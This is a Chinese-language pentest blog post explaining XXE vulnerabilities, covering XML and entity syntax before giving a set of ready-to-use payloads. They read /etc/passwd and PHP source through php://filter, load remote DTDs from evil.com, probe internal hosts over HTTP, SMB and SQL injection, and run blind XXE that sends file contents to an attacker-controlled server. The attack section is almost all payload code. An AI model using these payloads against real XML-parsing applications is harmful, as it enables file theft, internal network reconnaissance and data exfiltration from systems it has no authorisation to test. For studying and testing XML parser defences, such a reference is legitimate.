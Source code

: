 +++
date = "2017-12-09T23:02:22+08:00"
description = "XXE漏洞是针对使用XML交互的Web应用程序的攻击方法"
draft = false
tags = ["xml"]
title = "XXE漏洞"
topics = ["Pentest"]

+++

### 0x00 XXE
> XXE漏洞是针对使用XML交互的Web应用程序的攻击方法

> XML文件作为配置文件(spring、Struts2等)、文档结构说明文件(PDF、RSS等)、图片格式文件(SVG header)应用比较广泛

### 0x01 XML格式
> ```xml
<?xml version="1.0" encoding="utf-8"?>  <!--xml声明-->

<!--文档类型定义-->
<!DOCTYPE note [
  <!ELEMENT note (to,from,heading,body)>
  <!ELEMENT to       (#PCDATA)>
  <!ELEMENT from     (#PCDATA)>
  <!ELEMENT heading  (#PCDATA)>
  <!ELEMENT body     (#PCDATA)>
]>

<!--文档元素-->
<note>
<to>Tom</to>
<from>John</from>
<heading>Reminder</heading>
<body>Hi,I’am John</body>
</note>
```

### 0x02 内部声明与外部引用
> ```xml
<!--内部声明实体-->
<!ENTITY 实体名称 "实体的值">

<!--引用外部实体-->
<!ENTITY 实体名称 SYSTEM "URI">
```

### 0x03 XXE漏洞
* 外部引用时可能会出现漏洞，几种payload：

> ```xml
<?xml version="1.0"?>
<!DOCTYPE a [
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<test>&xxe;</test>
```
```xml
<?xml version="1.0"?>
<!DOCTYPE a [
  <!ENTITY % d SYSTEM "http://evil.com/evil.dtd" >
  %d;
]>
<test>&b;</test>

evil.dtd中的内容为：<!ENTITY b SYSTEM "file:///etc/passwd" >
```
```xml
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://evil.com/evil.dtd">
<test>&b;</test>

evil.dtd中的内容为：<!ENTITY b SYSTEM "file:///etc/passwd" >
```

* 简单绕过

> ```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [
  <!ELEMENT methodname ANY >
  <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=index.php" >
]>
<methodcall>
  <methodname>&xxe;</methodname>
</methodcall>
```

* 扫描内网

> ```xml
<!ENTITY portscan SYSTEM 'http://192.168.2.22:6379/'>
<!ENTITY smb SYSTEM '\\192.168.2.22\C$'>
<!ENTITY sqli SYSTEM 'http://192.168.2.22/a.php?id=-1+union+select+1,2,3--'>
```

* Blind-XXE

> ```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
    <!ENTITY % ttt SYSTEM "php://filter/convert.base64-encode/resource=/flag">
    <!ENTITY % remote SYSTEM "http://Your IP/evil.xml">
    %remote;   <!--引用remote来将外部文件evil.xml引入到解释上下文中-->
    %payload;   <!--执行%payload，这时会检测到send实体，然后在root节点中引用send，就可以成功实现数据转发-->
]>
<root>&send;</root>

<!--evil.xml内容：-->
<!ENTITY % payload "<!ENTITY % send SYSTEM 'http://Your IP/a.php?content=%ttt;'>">
```
```xml
<?xml version="1.0"?>  
<!DOCTYPE ANY[  
    <!ENTITY % file SYSTEM "file:///C:/1.txt">  
    <!ENTITY % remote SYSTEM "http://192.168.150.1/evil.xml">  
    %remote;  
    %all;  
    %send;  
]>

<!--evil.xml内容：-->
<!ENTITY % all "<!ENTITY % send SYSTEM 'http://192.168.150.1/1.php?file=%file;'>">
```

<br>
Reference(侵删)：  

* [http://blog.csdn.net/u011721501/article/details/43775691](http://blog.csdn.net/u011721501/article/details/43775691)
